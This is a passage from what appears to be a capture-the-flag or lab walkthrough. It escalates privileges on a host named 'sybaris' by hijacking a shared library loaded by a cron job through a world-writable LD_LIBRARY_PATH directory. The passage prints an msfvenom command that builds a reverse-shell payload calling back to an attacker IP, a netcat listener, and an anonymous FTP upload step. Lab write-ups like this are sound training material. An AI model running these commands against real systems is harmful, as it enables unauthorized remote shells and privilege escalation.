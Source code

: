 ![[2025-08-31_9.png]]

We also note that this crontab file includes a custom `LD_LIBRARY_PATH` variable which adds **/usr/local/lib/utils** and **/usr/local/lib/dev** to the list of locations to search for library files. If we check these paths, we find that we only have write access to **/usr/local/lib/dev**, which is perfect for our use since it appears first in the path.

![[2025-08-31_8.png]]
```basj
[pablo@sybaris tmp]$ ls -lah /usr/local/lib/dev
total 0
drwxrwxrwx  2 root root  6 Sep  7  2020 .
drwxr-xr-x. 4 root root 30 Sep  7  2020 ..
[pablo@sybaris tmp]$ ls -lah /usr/local/utils  
ls: cannot access /usr/local/utils: No such file or directory
[pablo@sybaris tmp]$ ls -lah /usr/local/lib/utils
total 12K
drwxr-xr-x. 2 root root   22 Sep  4  2020 .
drwxr-xr-x. 4 root root   30 Sep  7  2020 ..
-rwxr-xr-x. 1 root root 8.1K Sep  4  2020 utils.so

```
The list of shared objects loaded by **/usr/bin/log-sweeper** includes the **utils.so** shared object which may be a good candidate for hijacking.
![[2025-08-31_10.png]]

## 4.2 Exploit Cron Job
To exploit out `log_sweeper` cron job, all we need to do is generate a milicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev` directory. First, we'll generate out malicious payload shareed object `.so` file.

```bash
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=192.168.45.247 LPORT=6379
```
![[2025-08-31_11.png]]
### NC LISTENER:
Start netcat listener to catch the reverse shell on port 6379
```bash
nc -lvnp 6379
```
![[2025-08-31_12.png]]

Upload the `utils.so` shared object to anonymous ftp. 
```bash
ftp 192.168.195.93 # anonymous:anonymous
cd pub
put utils.so
```

![[2025-08-31_13.png]]
